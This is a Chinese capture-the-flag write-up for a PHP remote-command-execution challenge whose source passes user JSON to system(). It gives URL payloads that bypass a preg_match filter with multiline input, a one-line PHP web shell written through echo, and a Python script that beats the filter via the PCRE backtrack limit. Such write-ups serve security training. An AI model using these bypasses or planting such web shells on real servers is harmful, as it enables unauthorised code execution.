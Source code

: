 ```
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

解法一：

1,	代码中使用 `putenv('PATH=/home/rceservice/jail');`  配置系统环境变量，而我们用不了 cat 也有可能是在这个环境变量下没有这个二进制文件。我们可以直接使用 `/bin/cat` 来调用cat命令。后来看到只有ls这个二进制文件

2,	Linux命令的位置：`/bin` 和 `/usr/bin`，默认都是全体用户使用，`/sbin`,`/usr/sbin`,默认root用户使用

3, `绕过preg_match` , 因为preg_match只会去匹配第一行，所以这里可以用`多行`进行绕过

payload
```
?cmd={%0A"cmd":"ls /home/rceservice/"%0A}

?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

后来我就想会不会有echo 还有ls？
果然有，成功拿shell

```
/bin/echo '<?=phpinfo();' > 3.php

?cmd={%0A"cmd":"/bin/echo '<?=eval($_POST[shell]);' > 4.php"%0A}
```

解法二：利用PCRE回溯来绕过 preg_match

p神的文章：[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌 ](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

```
import requests

url='http://5dd96313-13f8-4eb6-89eb-0dbb5a4ba30a.node3.buuoj.cn'
data={
    'cmd':'{"cmd":"/bin/cat /home/rceservice/flag","feng":"'+'a'*1000000+'"}'
}
r=requests.post(url=url,data=data).text
print(r)
```

---